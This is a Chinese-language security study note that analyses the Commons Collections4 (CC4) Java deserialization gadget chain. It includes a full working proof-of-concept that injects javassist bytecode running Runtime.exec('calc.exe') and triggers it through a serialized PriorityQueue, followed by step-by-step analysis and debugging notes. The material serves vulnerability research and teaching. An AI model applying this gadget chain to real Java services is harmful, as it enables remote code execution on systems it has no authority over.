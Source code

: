 ## 简介
CC4 相当于 CC2 + CC3 的结合，在ysoseria中CC4提及的是，`Variation on CommonsCollections2 that uses InstantiateTransformer instead of InvokerTransformer.`
也就是说CC4 只需要在CC2的基础上（javassist）将`InvokerTransformer`修改成`InstantiateTransformer`,`InstantiateTransforme` 在CC3中可以知道，实现了Transformer，Serializable接口，在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回，要达到使用`InstantiateTransforme` 的transform方法，这时又离不开`TrAXFilter`的构造函数，在其实例化之后就能调用`TransformerImpl`的`newTransformer`方法，最后实现调用恶意代码
### 前置知识
[Commons Collections2 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)
[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
### 环境

- jdk1.8
- commons collections4
### 利用链
```
ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						ChainedTransformer.transform()
                ConstantTransformer.transform()
                InstantiateTransformer.transform()
                newInstance()
                      TrAXFilter#TrAXFilter()
                      TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                            TemplatesImpl.defineTransletClasses
                                newInstance()
                                      Runtime.exec()
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC4 {
    public static void main(String[] args) throws Exception{
        PriorityQueue queue = new PriorityQueue(1);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] taegetClassBytes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,taegetClassBytes);
        Field field1 = templates.getClass().getDeclaredField("_name");
        field1.setAccessible(true);
        field1.set(templates,"123");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        queue.add(1);
        queue.add(1);
        TransformingComparator Tcomparator = new TransformingComparator(chain);
        Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            FileOutputStream fileOutputStrem = new FileOutputStream("cc4.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStrem);
            outputStream.writeObject(queue);

            FileInputStream fileInputStream = new FileInputStream("cc4.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();

        }catch(Exception e){
            e.printStackTrace();
        }

    }
}

```
![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_25_uGqCkxoU.png)
## 分析
### 0x1
```java
PriorityQueue queue = new PriorityQueue(1);
```
[CC2](https://www.yuque.com/da-labs/secnotes/fbvuia)中我们可以知道，为什么明明PriorityQueue的构造函数中可以传入`TransformingComparator`的实例，但是我们却不使用可以传入`TransformingComparator`实例的构造方法，因为在传入之后，会直接调用`TransformingComparator`实例的方法，导致在还没有序列化的时候程序就已经crash了，这一步是实现CC2，CC4的关键
### 0x2
通过javasisst创建恶意代码，并将恶意代码写入到TemplatesImpl实例化后的`_bytecodes`,`_name`参数中，详情看[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] taegetClassBytes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
Field field = templates.getClass().getDeclaredField("_bytecodes");
field.setAccessible(true);
field.set(templates,taegetClassBytes);
Field field1 = templates.getClass().getDeclaredField("_name");
field1.setAccessible(true);
field1.set(templates,"123");
```
### 0x3
ChainedTransformer类会把我们的Transformer变成一个串，用于执行transform方法链式调用transformers[]
给队列赋值
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chain = new ChainedTransformer(transformers);
queue.add(1);
queue.add(1);
```
### 0x4
当赋值操作完成之后，再对comparator进行赋值操作，这样就能在赋值操作前不直接crash掉，并且在反序列化的时候comparator不为空，又能直接调用transform方法
```java
TransformingComparator Tcomparator = new TransformingComparator(chain);
Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
## 调试
在调试过程中，前部分同CC2，一直到`comparator.compare()`,comparator为反射传入的Tcomparator，当调用compare方法时，就会执行`this.transformer.transform(obj1)`,最后就回直接到TraXFilter的构造函数里，执行newTransformer
![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_CRLvOmsI.png)
最后在getTransletInstance函数里，将传入的字节码实例化![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_vAOWG2n4.png)
